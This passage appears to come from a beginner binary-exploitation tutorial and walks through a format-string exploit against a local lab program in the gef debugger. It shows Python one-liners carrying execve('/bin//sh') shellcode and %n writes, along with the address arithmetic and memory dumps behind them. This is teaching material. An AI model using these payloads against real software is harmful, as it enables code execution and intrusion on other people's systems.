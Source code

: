 You can see that the shellcode is placed at `0xffffcefc`. `0xffffcefc` is 4294954748 in decimal. We need to decrease it by substracting 4 bytes an then the length of the shellcode which is 23 bytes = 27 bytes.
4294954721 is our value.

```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%4294954721u" + "%6$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%4294954721u" + "%6$n"')

Breakpoint 1, 0x0804921c in main ()
gef➤  x/100wx $esp - 0x100
0xffffcecc:	0x0804920b	0xffffcee8	0xffffd283	0x000000c8
0xffffcedc:	0x080491d4	0x00000000	0x00000000	0xffffcfdc
0xffffceec:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcefc:	0xb0e18953	0x2580cd0b	0x34393234	0x37343539
0xffffcf0c:	0x25753332	0x006e2436	0x00000000	0x00000000
0xffffcf1c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf2c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfac:	0x00000000	0xffffcfd0	0x00000000	0x00000000
0xffffcfbc:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfcc:	0xf7ddbee5	0x00000002	0xffffd064	0xffffd070
0xffffcfdc:	0xffffcff4	0xf7fa8000	0x00000000	0xffffd048
0xffffcfec:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffcffc:	0xf7fa8000	0x00000000	0x64e27305	0x20009515
0xffffd00c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd01c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd02c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd03c:	0x080490d6	0x080491b6	0x00000002	0xffffd064
0xffffd04c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd05c
gef➤
```

The value at the `0xffffcfdc` changed, but is not what we need. It is a case when you need to write in several stages. Okay.

A value to write in the first stage is `53181`. Which is 0xcfdc - 27 - 4 (because we will add another addres with an offset of 2 bytes).
```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%53181u" + "%6$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%53181u" + "%6$n"')
��������1�Ph//shh/bin��PS��

Breakpoint 1, 0x0804921c in main ()

gef➤  x/100wx $esp - 0xfc
0xffffcec0:	0xffffced8	0xffffd270	0x000000c8	0x080491d4
0xffffced0:	0x00000000	0x00000000	0xffffcfbc	0xffffcfbe
0xffffcee0:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcef0:	0xb0e18953	0x2580cd0b	0x32393235	0x36257539
0xffffcf00:	0x00007824	0x00000000	0x00000000	0x00000000
0xffffcf10:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf20:	0x00000000	0x00000000	0x00000000	0x00000000
```